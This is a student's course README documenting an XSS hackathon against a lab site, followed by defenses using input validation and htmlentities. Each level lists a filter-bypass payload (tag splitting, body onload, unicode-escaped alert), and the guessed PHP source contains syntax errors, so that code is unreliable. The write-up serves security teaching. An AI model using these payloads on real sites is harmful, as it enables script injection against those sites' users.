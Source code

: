 
# waph-sanipidr
  WAPH-Web Application Programming and hacking

## **Instructor** : Dr.Phu Phung 


**Name**: DILIP KUMAR SANIPINA

**Email** : sanipidr@mail.uc.edu

**Short-bio** : I have very interested in web programming and ethical hacking .
![headshot](images/headshot.jpeg)



 


## Hackathon Overview:
- In the hackathon 1, I learned about keeping websites safe from attacks like cross-site scripting (XSS), which are common and can cause big problems. We discussed about the OWASP Top Vulnerabilities, which are like a list of the most important things to watch out for. One big thing is making sure any information people put into a website is checked carefully, so bad stuff can't get in. And when the website shows information back to people, it needs to be done in a safe way, so bad code can't sneak in. We looked at real examples of what can go wrong when websites aren't protected well, which showed me why it's so important to take security seriously.

## Respository Information

Respository's URL: [https://github.com/sanipidr/waph-sanipidr/tree/main/Hackathon1]( https://github.com/sanipidr/waph-sanipidr/tree/main/Hackathon1)

## Hackathon-1: Cross-Site Scripting Attacks and Defenses
# Task 1: Attack

**Level-0**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php

-Attacking Script:
<script>alert('Level-0 Hacked by Dilip Kumar Sanipina')</script>

![Level-0](images/LEVEL_0.png)

**Level-1**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level1/echo.php

-Attacking Script:
   ?input=<script>alert('Level-1 Hacked by Dilip Kumar Sanipina')</script>

![Level-1](images/LEVEL_1.png)



**Level-2**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php

- The website's HTTP request doesn't include input fields or path variables. Instead, it's connected to a simple HTML form. This form lets people submit offensive scripts directly, which opens the door for injecting harmful code into the website.

-Attacking Script:
	?input= <script>alert('Level-2 Hacked by Dilip Kumar Sanipina')</script>

Guess Source Code:
- source code: `Guessing source code `

	 if (!isset($_POST['input'])){
	            die("{\"error\": \"please provide the 'input' field in a Http POST Request\"}"");
	        }      
	 echo $_POST['input'];

![Level-2](images/LEVEL-2.png)



**Level-3**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php
- At level-3, the web application filters out the <Script> tag that's directly entered through the input.However, attackers can still break their harmful code into smaller parts to bypass this filter and successfully carry out an XSS attack.

-Attacking Script:
   ?input= <scr<script>ipt>alert('Level-3 Hacked by Dilip Kumar Sanipina')</scr</script>ipt>
Guess Source Code:
- source code: `Guessing source code `

	$input = echo $_POST['input'];
	$input=str_replace(['<script>', '</Script>'], '',$input)
   
![Level-3](images/LEVEL-3.png)

**Level-4**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level/echo.php
- At level-4 filtering, direct <script> tags are blocked. Instead, attackers exploit the onload() function of the body tag to execute XSS scripts. They combine their script with this function, triggering malicious actions once the page finishes loading. This bypasses filtering and underscores the need for robust security practices to mitigate XSS vulnerabilities effectively.

-Attacking Script:
   ?input= <body onload="alert('Level-4 Hacked by Dilip Kumar Sanipina')">hacked</body>

Guess Source Code:
- source code: `Guessing source code `

	$input =  $_GET['input']
		if (preg_match('/<script\b[^>]*>(.*?')<\/script>/is',$input)) {
			exit('{"error": "No \'script\' is Allowed!"}');
		}
		else
			echo($input);
   
![Level-4](images/LEVEL-4.png)


**Level-5**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php
- At level-5 security, both the <script> tag and the alert() function are filtered out to prevent XSS attacks. To overcome these restrictions and still trigger a popup alert, attackers use a clever combination of encoding techniques and the onload() method with the body tag. This indirect approach allows them to execute JavaScript code despite the filters in place, highlighting the need for robust security measures to counter such tactics effectively.

-Attacking Script:
   ?input= <body onload="\u0061lert('Level-5 Hacked by Dilip Kumar Sanipina')">hacked</body>

- Guess Source Code:
- source code: Guessing source code

   $input =  $_GET['input']
		if (preg_match('/<script\b[^>]*>(.*?')<\/script>/is',$data) || stripos($data 'alert')!== false) {
			exit('{"error": "No \'script\' is allowed!"}');
		}
		else
			echo($input);


![Level-5](images/LEVEL-5.png)

**Level-6**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level6/echo.php
- In Level-6, the approach involves using htmlentities() to transform user input into HTML entities, making it display as plain text on the webpage. However, JavaScript event listeners such as onclick() are set up to detect key presses within the input field. This setup allows for the execution of JavaScript code, including triggering alerts, while still keeping the user input safely displayed as text. This strategy ensures security by preventing direct execution of JavaScript code from user input while enabling desired interactivity through event listeners.

Attacking Script:
   ?input= <body onload="\u0061lert('Level-6 Hacked by Dilip Kumar Sanipina')">hacked</body>

Guess Source Code:
- source code: Guessing source code

   echo htmlentities($_REQUEST('input'))  ;


![level-6](images/LEVEL-6.png)

![level-6](images/LEVEL-6-PS.png)




## Task 2 -Defense

**echo.php**
- In the echo.php file in lab2, I've implemented input validation. Now, if you try to submit a request without providing any input, the system will prompt you with an alert asking you to enter data into the input field. This validation ensures that users cannot submit empty requests and encourages them to provide the necessary input for the operation to proceed smoothly.

source code:

<?php
        
        if (!isset($_REQUEST["data"])){
                #echo "Error: 'data' parameter is missing.";
                die("{\"error\": \"please provide 'data' field\"}");
        }
        echo htmlentities($_REQUEST['data']);
?>


![echo.php](images/echo.jpeg)


![Git commit](images/echo.phpgithubcommit.png)

**Current front end prototype**

- In this code, we've implemented input validation to ensure that both the GET and POST method forms include mandatory input. If a user tries to submit the form without providing any input, the system will prompt a message saying "Please give some input." This ensures that users cannot proceed without entering necessary data, maintaining the functionality and integrity of the system.

![Input Validation](images/Input_Validation.png)

![Git commit](images/echo_commit.jpeg)

- Following the input validation, I've implemented output encoding by defining an "encode text" function. This function encodes the output before printing it to the screen. Additionally, we display both the encoded and decoded messages. To ensure ongoing validation, I've added console alerts every time a user submits a request. This approach enhances security by encoding output to prevent XSS attacks and provides real-time validation feedback through console alerts.

![encoded input](images/Encoded_input.png)

![encoded_github_commit](images/Encoded__github.png)